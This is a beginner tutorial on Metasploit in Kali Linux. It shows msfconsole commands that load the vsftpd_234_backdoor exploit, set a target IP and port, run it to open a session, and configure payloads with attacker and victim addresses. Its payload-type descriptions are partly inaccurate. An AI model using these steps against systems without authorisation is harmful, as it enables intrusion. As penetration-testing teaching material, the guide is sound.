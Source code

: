 ## Introduction

Metasploit is one of the most powerful exploitation tools available for ethical hackers and penetration testers. This versatile framework is available in both commercial and community editions, with no significant differences between the two. In this tutorial, we will primarily use the Community version of Metasploit embedded in Kali Linux. Metasploit can also be installed separately on systems running Linux, Windows, or Mac OS X. This guide will walk you through the basics of using Metasploit, from installation requirements to executing exploits and payloads.

* * *

### Requirements

To install Metasploit, ensure your system meets the following hardware requirements:

- 2 GHz+ processor
- 1 GB available RAM
- 1 GB+ available disk space

Metasploit is primarily used from the terminal. To open it, simply execute the following command:

```html
msfconsole
```

After Metasploit starts, you will see the following screen. Highlighted in yellow is the version of Metasploit.

![Getting Started with Metasploit for Ethical Hacking](https://neoslab.com/uploads/medias/2021/12/getting-started-with-metasploit-for-ethical-hacking-1.png "Getting Started with Metasploit for Ethical Hacking")

* * *

### Exploits of Metasploit

For this example, we will assume that a Vulnerability Scanner has identified a vulnerable FTP service on a Linux machine. We will use the `vsftpd_234_backdoor` exploit to demonstrate how Metasploit works.

First, use the following command:

```html
msf > use exploit/unix/ftp/vsftpd_234_backdoor
```

![Getting Started with Metasploit for Ethical Hacking](https://neoslab.com/uploads/medias/2021/12/getting-started-with-metasploit-for-ethical-hacking-2.png "Getting Started with Metasploit for Ethical Hacking")

Next, type `show options` to see the parameters that need to be set:

```html
msf > show options
```

As shown in the following screenshot, set **RHOST** as the "target IP":

![Getting Started with Metasploit for Ethical Hacking](https://neoslab.com/uploads/medias/2021/12/getting-started-with-metasploit-for-ethical-hacking-3.png "Getting Started with Metasploit for Ethical Hacking")

Set the target IP and port using the following commands:

```html
msf > set RHOST 192.168.1.101
msf > set RPORT 21
```

![Getting Started with Metasploit for Ethical Hacking](https://neoslab.com/uploads/medias/2021/12/getting-started-with-metasploit-for-ethical-hacking-4.png "Getting Started with Metasploit for Ethical Hacking")

Finally, type `run` to execute the exploit. If successful, it will open a session you can interact with:

```html
msf > run
```

* * *

### Metasploit Payloads

Metasploit payloads can be categorized into three types:

- **Singles:** Small payloads designed to create some kind of communication and move to the next stage. For example, creating a user.
- **Staged:** Payloads used to upload a larger file onto a victim system.
- **Stages:** Payload components downloaded by Stagers modules, providing advanced features without size limits, such as Meterpreter and VNC Injection.

Payloads are simple scripts that hackers use to interact with a hacked system. Using payloads, they can transfer data to a victim system.

* * *

### Payload Usage Example

To see available payloads, use the following command:

```html
msf > show payloads
```

To set the desired payload, use:

```html
msf > set PAYLOAD payload/path
```

Set the host and port to listen (LHOST, LPORT), which are the **attacker IP** and **port**. Then, set the remote host and port (RHOST, RPORT), which are the **victim IP** and **port**. When you are ready, simply type `exploit` to create a session if the targeted host is vulnerable to the selected exploit:

```html
msf > exploit
```

* * *

### Conclusion

Metasploit is an invaluable tool for ethical hackers and penetration testers, providing powerful capabilities for exploiting vulnerabilities and deploying payloads. By following the steps outlined in this guide, you can effectively use Metasploit to assess and enhance the security of your systems. Whether you are targeting FTP services, web applications, or other network vulnerabilities, Metasploit offers the flexibility and power to adapt to various scenarios.